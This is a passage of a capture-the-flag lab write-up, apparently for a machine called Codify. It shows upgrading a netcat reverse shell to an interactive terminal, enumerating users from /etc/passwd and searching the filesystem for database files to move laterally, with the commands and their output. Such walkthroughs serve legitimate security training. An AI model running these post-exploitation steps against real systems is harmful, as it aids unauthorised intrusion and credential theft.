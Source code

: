 ### **Stabilizing Netcat**
```bash
svc@codify:~$ which bash
which bash
/usr/bin/bash

svc@codify:~$ python3 -c "import pty;pty.spawn('/usr/bin/bash');" && export TERM=xterm
python3 -c "import pty;pty.spawn('/usr/bin/bash');" && export TERM=xterm

svc@codify:~$ ^Z                              
zsh: suspended  nc -lnvp 13337

stty raw -echo; fg
[1]  + continued  nc -lnvp 13337

svc@codify:~$ test -t 0 && echo "Interactive Shell" || echo "Not Interactive Shell"
Interactive Shell
```

---

## 🏁 **Flag Exfiltration**

### **Lateral Movement**  

User Enumeration
```bash
svc@codify:~$ cat /etc/passwd | grep -vE 'nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
pollinate:x:105:1::/var/cache/pollinate:/bin/false
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

After spending a good time sniffing through the system to find a vector to Lateral Movement, I found some useful files
```bash
svc@codify:~$ find / -name '*.db' -type f 2>/dev/null
/var/cache/man/index.db
/var/cache/man/zh_CN/index.db
/var/cache/man/de/index.db
/var/cache/man/pl/index.db
/var/cache/man/es/index.db
/var/cache/man/uk/index.db
/var/cache/man/ko/index.db
/var/cache/man/sr/index.db
/var/cache/man/fi/index.db
/var/cache/man/fr/index.db
/var/cache/man/da/index.db
/var/cache/man/tr/index.db
/var/cache/man/zh_TW/index.db
/var/cache/man/pt/index.db
/var/cache/man/hu/index.db
/var/cache/man/it/index.db
/var/cache/man/ro/index.db
/var/cache/man/nl/index.db
/var/cache/man/cs/index.db
/var/cache/man/sv/index.db
/var/cache/man/pt_BR/index.db
/var/cache/man/ru/index.db
```